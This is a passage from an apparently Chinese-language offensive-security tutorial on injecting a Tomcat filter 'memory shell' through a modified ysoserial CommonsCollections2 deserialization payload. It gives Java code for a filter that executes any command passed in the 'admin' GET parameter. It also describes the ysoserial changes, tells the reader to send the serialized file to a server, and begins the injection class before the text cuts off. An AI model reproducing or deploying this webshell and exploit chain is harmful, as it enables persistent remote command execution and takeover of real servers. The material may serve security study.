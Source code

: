     
      @Override    public void doFilter(ServletRequest req, ServletResponse res,                         FilterChain filterChain) throws IOException, ServletException {        HttpServletRequest request = (HttpServletRequest) req;        if (request.getParameter("admin")!=null){            Runtime.getRuntime().exec(request.getParameter("admin"));        }        filterChain.doFilter(req, res);    }  
        @Override    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
        }  
        @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)        throws TransletException {  
        }  
        @Override    public void init(FilterConfig filterConfig) throws ServletException {  
        }  
        @Override    public void destroy() {  
        }}

对于第一处重载，只是把`command`改为了`_class`并删除了无用的参数，第二处重载则从通过Javaassist技术制作类并获取字节码变为直接获取字节码，因为我们直接编写了类文件

然后将`payloads/CommonsCollections2`复制出一个新版本，命名为`CommonsCollections2ForClassInjection`

将`command`参数重构为`payloadName`，变为注入的类名来使用，之后可以方便调整为使用`ServletInjection`等其它内存马

把这一句进行修改

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(command);

换为如下，直接通过类名获取字节码

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(Class.forName("ysoserial.shells."+payloadName));

启动参数配置如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220216084005.png)

将生成的`output.serial`文件打到服务器上，然后在访问任意路径时，带上GET参数`admin`就可以执行命令了

可以发现我给自己起的Payload名字是`TomcatFilterInjection`，把它放在如图的位置

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220216084007.png)

Payload代码如下，大家也可以自己制作`ServletInjection`或者`ListenerInjection`作为Payload

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package ysoserial.shells;  
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import org.apache.catalina.Context;import org.apache.catalina.core.ApplicationFilterConfig;import org.apache.catalina.core.StandardContext;import org.apache.catalina.loader.WebappClassLoaderBase;import org.apache.tomcat.util.descriptor.web.FilterDef;import org.apache.tomcat.util.descriptor.web.FilterMap;  
    import javax.servlet.*;import javax.servlet.http.HttpServletRequest;import java.io.IOException;import java.lang.reflect.Constructor;import java.lang.reflect.Field;import java.util.Map;  
    public class TomcatFilterInjection extends AbstractTranslet implements Filter {  
        static {        try {  